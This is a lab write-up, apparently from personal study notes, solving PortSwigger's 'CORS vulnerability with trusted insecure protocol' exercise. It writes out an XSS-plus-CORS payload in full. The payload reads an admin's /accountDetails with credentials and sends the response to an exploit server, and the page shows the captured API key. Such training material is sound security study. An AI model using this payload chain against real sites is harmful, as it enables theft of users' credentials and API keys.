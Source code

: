 
### CORS vulnerability with trusted insecure protocol : PRACTITIONER

---

> Given credentials `wiener:peter`.

> Logging in with the given credentials and having BURPSUITE PROXY HTTP history on.

![](./screenshots/login.png)

> We see this page.


![](./screenshots/lab1-1.png)

> It has the API key of the `wiener` user, but we need that of the `admin` user.
> Viewing the HTTP history and going through the responses, we see the `GET` request for `/accountDetails`.

![](./screenshots/lab2-1.png)

> We see that the response contains the ACAC header, meaning that the CORS protocol is being used.

> We know that the valid origin is that of the lab.

![](./screenshots/lab3-3.png)

> Try supplying a random wrong origin, then `null` to see that both are rejected.

| `  https://mins.com   `       | `null`                        |
| ----------------------------- | ----------------------------- |
| ![](./screenshots/lab3-1.png) | ![](./screenshots/lab3-2.png) |   

> Next step is to try manipulating the origin header.
> Check if it allows all subdomains of the allowed header by adding a random subdomain to the lab URL.

![](./screenshots/lab3-4.png)

> We see that it is accepted, so we know that requests are trusted from anywhere that is a subdomain of the web application.
> Moreover, credentials are also accepted, so cookies are transferred keeping user sessions.
> So if we manage to execute scripts from within the website from a subdomain, an XSS attack, we can make the XSS payload issue a request to the `/accountDetails` page to obtain the admin apiKey.

> Browsing through the application, the only place where we can inject anything is through the check stock feature.

![](./screenshots/lab3-5.png)

> With HTTP history, notice the request sent.

![](./screenshots/lab3-6.png)

1. Uses HTTP not HTTPS.
2. It is a subdomain of the lab. `stock.URL`.
3. 2 parameters where we can inject user input.

> We checked if we can supply any subdomain to the `/accountDetails` page and it works, but we need to check if it works with http as well.

![](./screenshots/lab3-7.png)

> That works, so we can proceed.
> Since it is a subdomain, then we can send requests to `/accountDetails` and get a response that confirms the origin is allowed.

> Finally, we need to check for XSS in the check stock request.
> Injecting in the `productId` parameter.
```HTML
<script>alert(1)</script>
```

![](./screenshots/lab3-8.png)

> We see that the payload is produced exactly as is, and not encoded.
> This means that the javascript might execute, to confirm, show the response in browser by right clicking on the response and choosing show in browser.

![](./screenshots/lab3-9.png)

> Therefore, we can execute javascript, and this means, we can try to add our payload to issue a request to `/accountDetails` to obtain the admin apiKey.
> We need to add this payload in the check stock request, so it should have the same host and protocol that this request has, doing that using `document.location`.
> The check stock request has URL: `http://stock.0a2400220362b0f1808c710b008c00d3.web-security-academy.net`.
> We add our HTML payload used in [[Portswigger/CORS/Lab 1|Lab 1]] in the productId parameter as it is the one vulnerable to XSS and allows JS execution.

```HTML
<script>
	document.location="http://stock.0a2400220362b0f1808c710b008c00d3.web-security-academy.net/productId=<script>CORS PAYLOAD</script>&storeId=1"
</script>
```
> When the browser parses a script, it quits at the first `</script>` found, therefore, we need to encode the first `<` in the closing tag to `%3c`.

```HTML
<script>
	document.location="http://stock.0a2400220362b0f1808c710b008c00d3.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a2400220362b0f1808c710b008c00d3.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a9200200324b0bf8091700d017000c3.exploit-server.net/log?key='+this.responseText;
    }; %3c/script>&storeId=1"
</script>
```
> We need to remove all new line characters.
> In the `reqListener()` function, we need to direct the dumping of the response the exploit server, so we need to pass its URL.
> We need to URL encode any `+` to `%2b` in the request to the exploit server otherwise they will be treated as arguments of the big request in `document.location`, `http://stock....`.

```HTML
<script>
document.location="http://stock.0a2400220362b0f1808c710b008c00d3.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a2400220362b0f1808c710b008c00d3.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener () {location='https://exploit-0a9200200324b0bf8091700d017000c3.exploit-server.net/log?key='%2bthis.responseText;};%3c/script>&storeId=1"
</script>
```

> Adding this to the exploit server, storing, and delivering to victim.

![](./screenshots/lab3-10.png)

> Opening the access log we see our api key for the admin user.

![](./screenshots/lab3-11.png)

```
mm7uds6GPxJQ2tWye2w4MVsyRa0bv5zR
```

> Submitting it in the solution completes the lab.

---
